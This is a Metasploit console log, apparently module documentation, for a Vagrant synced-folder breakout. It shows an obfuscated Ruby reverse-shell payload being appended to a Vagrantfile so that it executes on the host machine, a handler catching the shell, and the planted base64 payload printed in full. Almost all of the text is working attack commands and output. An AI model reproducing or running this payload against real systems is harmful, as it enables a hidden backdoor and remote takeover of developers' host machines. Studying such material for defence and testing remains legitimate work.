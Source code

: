 ```
lport => 4444
msf exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Could not verify if /vagrant/Vagrantfile is writable.
[*] Appending payload (516 bytes) to /vagrant/Vagrantfile ...
[*] Payload appended to /vagrant/Vagrantfile
[*] The payload will be executed when a user runs any vagrant command from within the project directory on the host system.
[!] This module requires manual removal of the payload from the project Vagrantfile: /vagrant/Vagrantfile
msf exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > use exploit/multi/handler
[*] Using configured payload windows/x64/shell/reverse_tcp
msf exploit(multi/handler) > set payload ruby/shell_reverse_tcp
payload => ruby/shell_reverse_tcp
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf exploit(multi/handler) > run -jz
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.200.130:4444 
msf exploit(multi/handler) > [*] Command shell session 2 opened (192.168.200.130:4444 -> 192.168.200.204:51524) at 2022-10-16 06:34:04 -0400

msf exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

id
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare),138(libvirt)
pwd
/home/user/vagrant/windows2019
tail -n 13 Vagrantfile

code = %(cmVxdWlyZSAnc29ja2V0JztjPVRDUFNvY2tldC5uZXcoIjE5Mi4xNjguMjAwLjEzMCIsIDQ0NDQpOyRzdGRpbi5yZW9wZW4oYyk7JHN0ZG91dC5yZW9wZW4oYyk7JHN0ZGVyci5yZW9wZW4oYyk7JHN0ZGluLmVhY2hfbGluZXt8bHxsPWwuc3RyaXA7bmV4dCBpZiBsLmxlbmd0aD09MDsoSU8ucG9wZW4obCwicmIiKXt8ZmR8IGZkLmVhY2hfbGluZSB7fG98IGMucHV0cyhvLnN0cmlwKSB9fSkgcmVzY3VlIG5pbCB9).unpack(%(m0)).first
if RUBY_PLATFORM =~ /mswin|mingw|win32/
inp = IO.popen(%(ruby), %(wb)) rescue nil
if inp
inp.write(code)
inp.close
end
else
if ! Process.fork()
eval(code) rescue nil
end
end
```
